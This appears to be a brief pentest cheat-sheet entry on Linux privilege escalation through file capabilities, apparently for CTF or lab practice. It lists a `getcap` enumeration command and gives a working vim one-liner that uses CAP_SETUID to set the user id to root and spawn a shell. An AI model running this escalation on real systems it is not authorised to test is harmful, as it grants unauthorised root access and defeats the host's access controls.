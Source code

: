 Capabilities help manage privileges at a more granular level.
# Exploiting Capabilities

First, we use `getcap` tool to list enabled capabilities:

```bash
getcap -r / 2>/dev/null
```

then we use search `GTFObins` online for a list of binaries that can be leveraged for privilege escalation if we find any set capabilities.

For example if we have `CAP_SETUID` set for `vim` we can use the following command to escalate our privileges:

```bash
./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
#Note: use py3 if the machine supports py3 not py
```